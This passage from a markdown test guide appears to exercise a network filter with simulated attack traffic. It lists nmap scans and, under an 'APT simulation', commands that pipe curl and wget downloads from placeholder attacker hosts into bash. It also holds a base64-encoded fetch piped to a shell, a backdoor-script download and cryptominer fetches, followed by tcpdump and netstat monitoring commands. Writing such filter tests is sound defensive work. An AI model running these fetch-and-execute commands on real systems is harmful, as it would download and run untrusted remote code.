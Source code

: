 ### 6. Network Scanning Simulation
```bash
# Port scanning (should be blocked by filtering)
nmap -sS -O target.example.com
nmap -sU -p 1-1000 target.example.com
nmap -sT -p 1-65535 target.example.com

# Host discovery
nmap -sn 192.168.1.0/24
nmap -PR 192.168.1.0/24

# Service enumeration
nmap -sV -p 22,80,443 target.example.com
```

### 7. Advanced Persistent Threat (APT) Simulation
```bash
# Multi-stage download
curl -v http://stage1.apt.example.com/payload1 | bash
wget -q -O - http://stage2.apt.example.com/payload2 | sh

# Encoded payload simulation
echo "Y3VybCBodHRwOi8vYXB0LmV4YW1wbGUuY29tL3BheWxvYWQ=" | base64 -d | bash

# Persistence mechanism simulation
curl -v http://persistence.apt.example.com/install_backdoor.sh
```

### 8. Cryptocurrency Mining Simulation
```bash
# Mining pool connections
nc -zv mining-pool.example.com 4444
nc -zv stratum.mining.example.com 3333

# Download mining software
wget http://crypto-miner.example.com/miner.tar.gz
curl -v http://mining-tools.example.com/xmrig
```

## Monitoring Commands

### Check Network Connections
```bash
# Monitor active connections
netstat -tulpn
ss -tulpn

# Monitor network traffic
sudo tcpdump -i any -n 'not port 22'
sudo tcpdump -i any -n 'host suspicious-site.example.com'

# Check DNS queries
sudo tcpdump -i any -n 'port 53'
```
